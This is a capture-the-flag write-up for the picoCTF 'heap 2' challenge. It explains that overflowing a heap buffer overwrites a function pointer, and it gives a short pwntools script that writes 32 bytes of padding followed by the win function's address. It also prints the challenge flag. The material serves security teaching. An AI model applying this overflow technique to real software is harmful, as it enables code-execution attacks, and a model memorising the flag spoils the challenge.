




## heap 2
 

**Description**

Can you handle function pointers?

**Write-up**

Similar to [heap 1](./../heap1), however now it will execute whatever function variable `x` is pointing to.


Binary has no PIE. `win` function is at address `0x00000000004011a0`.



Solving it:

```python
io = start()

io.sendline(b'2')
io.sendline()
io.sendline(b'A'*32 + b'\xa0\x11\x40')
io.sendline(b'4')

io.interactive()
```



**Solution**


Flag: picoCTF{and_down_the_road_we_go_91218226}


[back](/index)